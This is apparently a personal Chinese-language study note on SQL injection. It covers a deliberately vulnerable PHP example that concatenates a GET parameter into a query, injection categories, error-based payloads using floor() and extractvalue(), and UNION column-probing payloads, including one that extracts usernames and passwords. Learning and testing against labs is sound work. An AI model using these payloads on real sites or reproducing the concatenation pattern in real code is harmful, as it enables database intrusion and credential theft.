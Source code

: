 在原有结构基础上填充新的内容，引发结构逻辑变化，称之为注入。

SQL注入漏洞是服务器在处理SQL语句时错误地拼接用户提交参数，打破了原有的SQL执行逻辑，导致攻击者可部分或完全掌握SQL语句执行效果的一类安全问题。

>我的思考：
>
>这句话感觉上，高度概括了SQL注入漏洞的原理；核心在“拼接”二字上。其实，精一而悟道——很多漏洞payload的构造都在于拼接。
>
>拼接 = 数据域的闭合+ 逻辑域的添加

因为一些SQL语句测试的时候，需要进入phpstudy环境下的MySQL命令行，下面给出方法步骤

>F:\phpstudy\PHPTutorial\MySQL\bin
>
>mysql -h localhost -u root -p
>
>root

### SQL注入示例😊

以Apache+PHP+MySQL为例，用户提交的数据通过浏览器发送，为了区别不同的新闻内容，用户选择的URL后面会带有“id=1”字段。Apache服务器收到这个字段，然后传递给脚本语言PHP进行解释执行。例如，网站提供的是新闻服务，使用的脚本语言为news.php，代码如下。

```php
<?php
$id = $_GET["id"];
if (!$id) {
    echo "无法找到新闻".'<br/>';
    exit;//终止脚本执行
}
$servername = "localhost";
$username = "root";
$password = "admin123";
$dbname = "news";

$coon = new mysqli($servername,$username,$password);

if ($coon->coonect_error) {
    die("连接失败：".$conn->connect_error).'<br/>';
    //输出一条消息并退出当前脚本
    exit;
}

$result = mysql_query("SELECT * FROM acticle WHERE id=".$id);

while($row = mysql_fetch_array($result))
{
    echo $row['title']." ".$row['content'];
    echo "<br/>";
}

mysql_close($conn);
?>
```

以上代码的含义：网站会根据用户提交的id参数进行数据库查询，于是MySQL数据库执行了这样一条语句`SELECT * FROM article WHERE id=1`。

可以看到此处直接将用户提交的参数拼接进SQL语句的，例如：

```php
"select * from post_log where id=".$_GET['id']
```

其中“$_GET['id']”来自于HTTP请求第一行"?"后面的GET参数。这个位置的内容，攻击者是可以随意改写的。对于PHP语言来说，以“.”来拼接两个字符串内容，相当于把它们拼接起来代入数据库执行。

### SQL注入的分类

由于SQL注入漏洞相对于其他漏洞来说形成较早，研究SQL注入的人很多。所以有关SQL注入漏洞也有很多特殊的分类名词。从挖掘技巧上看有报错注入、Union注入、布尔注入、时间注入、DNS查询注入；从SQL注入参数在HTTP请求中的位置来划分有GET注入、POST注入、Cookie注入、Referer注入、User-Agent注入等；从存在SQL语句中的前后位置来划分有表名注入、条件（Where）注入、Order by注入、Limit注入等；从注入参数的查询类型以及闭合符来划分有整型（数字型）注入、字符型注入、搜索型（like）注入、In注入、混合型注入等；更具数据库的不同，又有Mysql注入、Oracle、Access注入等

![image-20240127211030558](https://raw.githubusercontent.com/m1crofan/image/main/image-20240127211030558.png)

>对于搜索型、In型注入比较陌生

### SQL注入检测、攻击方法

#### 1.报错注入

(1)基于报错的SQL注入检测方法

报错注入即是一种SQL注入检测方法，同时也是利用SQL注入读取数据的方法。作为检测方法，攻击者在判断一个参数是否存在SQL注入漏洞时，会尝试拼接单引号、反斜杠字符。例如“id=1”。

这样的字符如果被拼接传入SQL语句中会变成如下情况。

```sql
select * from post_log where id =1'
```

于是引起了一个SQL语法错误，数据库引擎会抛出错误，根据不同的开发模式，有些网站可能会将错误信息打印在网站上，如下所示。

```txt
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '
```

如果发生了这样的报错，证明攻击者拼接的单引号起作用了。这个位置是具有SQL注入漏洞的。同理，反斜杠也是SQL语句中的一个特殊字符。作为转义符号。它会转义后面的字符内容。例如：

```sql
select * from post_log where id='1\'
```

原本正常闭合的单引号被转义符打破了，最后形成了一个未闭合的语句。

(2)基于报错的SQL注入攻击

报错注入还可以用来发起攻击。在一些场景下，通过报错回显将目标数据打印在网页上。以下是网络上广为流传的10种MySQL报错注入方法。

**floor() 函数**

```sql
select * from test where id=1 and (
    select 1 from(
        select count(*),concat(user(),floor(rand(14)*2))x from information_schema.tables 	   group by x
    )a
)
```

>核心原理就是：当group by时会产生一个临时的新表；在进行数据比对的时候：如果主键相同，那么直接把count(*)的数量加一，如果主键不相同，那么会插入新的主键。漏洞根本的成因在于，数据对比时会进行一次`rand(0)*2`的运算，在插入数据的时候又会进行一次`rand(0)*2`的运算。当新插入的主键在表中原本就存在，那么就会导致主键冲突。
>
>拿sqllab的第一关做测试：注意mysql的注释是`--+`
>
>![image-20240128151011742](https://raw.githubusercontent.com/m1crofan/image/main/image-20240128151011742.png)
>
>参考链接：
>
>[关于floor()报错注入，你真的懂了吗？ ](https://www.freebuf.com/articles/web/257881.html)
>
>[Mysql报错注入之floor(rand(0)*2)报错原理探究](https://www.freebuf.com/column/235496.html)

**extractvalue()函数**

```sql
select * from test where id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)));
```

>extractvalue(xml_frag,xpath_expr)函数时，若xpath_expr参数不符合xpath格式，就会报错。而~符号（ascii编码值：0x7e）是不存在xpath格式中的，所以一旦在xpath_expr参数中使用~符号，就会产生xpath语法错误。

>这个函数我在命令行实验的时候，并不能报出包含用户名的错误。
>
>🤔这是为🐎捏~(￣▽￣)~*
>
>![image-20240128231628527](https://raw.githubusercontent.com/m1crofan/image/main/image-20240128231628527.png)

....还有剩下的8种，个人认为属于进阶内容；之后慢慢补充。

#### 2.UNION注入

关键字`union`能够执行一个或多个其他`select`查询，并将结果追加到原始查询中。例如：

```sql
SELECT a,b FROM table1 UNION SELECT c,d From table2
```

此SQL查询返回一个包含两列的单个结果集。若要使`UNION`查询正常工作，必须满足两个关键要求：

- 各个查询必须返回相同数量的列。
- 每列中的数据类型必须在各个查询之间兼容。

>😏union注入的核心要点

查询列数：

使用order by子句并递增指定的列索引，直到发生错误。

```sql
' ORDER BY 1--
' ORDER BY 2--
....
```

或者，提交一系列UNION SELECT有效负载，指定不同数量的null值：

```sql
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
```

对于oracle数据库，由于每个SELECT查询必须使用FROM关键字并指定有效的表。Oracle上有一个内置的表，称为`dual`可以用于此目的。

```
' UNION SELECT NULL FROM DUAL--
```

此处payload使用注释符`--`注释掉注入点之后的原始查询的其余部分。在mysql中，双破折号后必须跟一个空格或者`#`，也就是：`--+` 或者`--#`

⚠：无论是使用order by 还是使用填充null的联合注入；HTTP响应并不一定会返回数据库错误，要看具体的代码实现。

确认所需列数之后，可以探测每列是否可以保存字符串数据。例如：

```sql
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```

查询单列中的多个值

在某些情况下，可能只有一列可以利用。我们可以通过不同数据库的不同语法将多个值连接起来，可以在单个列中同时检索多个值。同时，可以包含一个分割符，以便区分不同的值。如，在Oracle上，可以提交输入：

```sql
' UNION SELECT username || '~' || password FROM users--
```

>不同的数据库使用不同的语法来执行值连接，可以查询portswigger的SQL注入备忘录。[SQL injection cheat sheet ](https://portswigger.net/web-security/sql-injection/cheat-sheet)

2024-1-28暂停一会，去复习csrf

>SQL注入的内容真的很多😥，慢慢学~😊
